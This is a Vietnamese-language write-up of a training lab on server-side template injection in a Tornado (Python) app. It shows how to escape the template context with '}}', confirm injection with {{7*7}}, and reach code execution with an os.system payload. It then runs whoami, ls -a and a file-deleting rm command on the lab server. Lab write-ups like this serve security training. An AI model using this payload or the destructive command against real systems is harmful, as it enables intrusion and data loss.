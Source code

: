 # Basic server-side template injection (code context)

__Xác định vấn đề__

Ở challenge này chúng ta sẽ kết hợp 2 việc sau:

+ Đầu tiên thay đổi đầu vào với __blog_post_author_display__, xác định 2 vấn đề: không thể thực thi xss và traceback trả lại thông báo lỗi của ứng dụng tornado (python)

![image-20220718001812580](https://user-images.githubusercontent.com/68894302/179419328-74f46c91-2d58-4fe9-9951-e22a34063185.png)

+ Đầu ra kết quả được render tại __user.firstname__ nếu choice option là `firstname`, hoặc cũng có thể là `name`, `nickname`. 

__Khai thác__

Thoát ra khỏi ngữ cảnh để thực thi SSTI bằng cách dùng hai dấu đóng `}}`. Sau đó inject `{{7*7}}` load lại comment và thấy kết quả trả về như sau: 

![image](https://user-images.githubusercontent.com/68894302/179417304-13b264a4-45be-4930-b312-5bf1693b368a.png)

Bây giờ đã biết ứng dụng sử dụng tornado nên chúng ta có thể dễ dàng RCE :v:

Payload: __}}{%+import+os+%}{{{{os.system('whoami')}}}}__

1. __whoami__

   ![image](https://user-images.githubusercontent.com/68894302/179417423-40fe7dea-d040-4c09-aab6-e262069cc75a.png)

2. __ls -a__

   ![image](https://user-images.githubusercontent.com/68894302/179417469-04a2c136-75b5-497a-a9a9-1096210c3218.png)

3. __rm -f /home/carlos/morale.txt__

   ![image](https://user-images.githubusercontent.com/68894302/179417620-fcf096ef-1a02-41d8-8e41-336de595151d.png)
